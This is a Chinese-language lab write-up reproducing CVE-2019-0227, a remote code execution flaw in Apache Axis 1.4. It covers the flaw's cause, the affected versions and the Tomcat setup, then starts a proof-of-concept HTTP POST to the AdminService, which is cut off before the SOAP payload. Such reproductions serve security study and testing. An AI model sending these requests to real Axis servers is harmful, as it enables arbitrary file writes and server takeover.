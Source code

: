 ## 1.什么是Axis

```
axis全称Apache Extensible Interaction System 即阿帕奇可扩展交互系统。Axis本质上就是一个SOAP引擎，提供创建服务器端、客户端和网关SOAP操作的基本框架。Axis版本是为Java编写的，不过为C++的版本正在开发中。但Axis并不完全是一个SOAP引擎，它还是一个独立的SOAP服务器和一个嵌入Servlet引擎（例如Tomcat）的服务器。
```

## 2.CVE-2019-0227

[Apache](https://so.csdn.net/so/search?q=Apache&spm=1001.2101.3001.7020) Axis 1.4 远程代码执行

### 2.1漏洞原理

```
Axis 1.4 adminservice开启远程访问，此时攻击者可通过 services/AdminService 服务 部署一个webservice , webservice开启一个写文件服务 , 攻击者可以写入任意文件 , getshell
```

### 2.2影响范围

```
Axis <=1.4 
enableRemoteAdmin 设置为True , 默认是false
```

### 2.3环境搭建

```
tomcat +apache Axis 1.4 
解压 axis.zip 放到tomcat目录下 webapp 下即可 , 里面的配置 , 已经配置好了
```

![image-20220910103745320](E:\Technology_stack\5.靶场&漏洞\漏洞复现\Apache_Axis_rce\assets\imageimage-20220910103745320-16627967497663.png)

然后访问

```
http://192.168.0.78:8080/axis/
```

![image-20220910103805828](E:\Technology_stack\5.靶场&漏洞\漏洞复现\Apache_Axis_rce\assets\imageimage-20220910103805828.png)

环境搭建成功 , 访问 

```
http://192.168.0.78:8080/axis/servlet/AdminServlet
```

生成 server-config.wsdd , 这里靶机环境已经提前配置好 , 不需要访问也行

### 2.4漏洞复现

POC1：开启写文件功能，并指定写入路径 , **注意路径**

```
POST /axis/services/AdminService HTTP/1.1
Host: 192.168.0.78:8080
Connection: close
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:64.0) Gecko/20100101 Firefox/64.0
Accept-Language: en-US,en;q=0.5
SOAPAction: something
Upgrade-Insecure-Requests: 1
Content-Type: application/xml
Accept-Encoding: gzip, deflate
Content-Length: 777

<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" >
```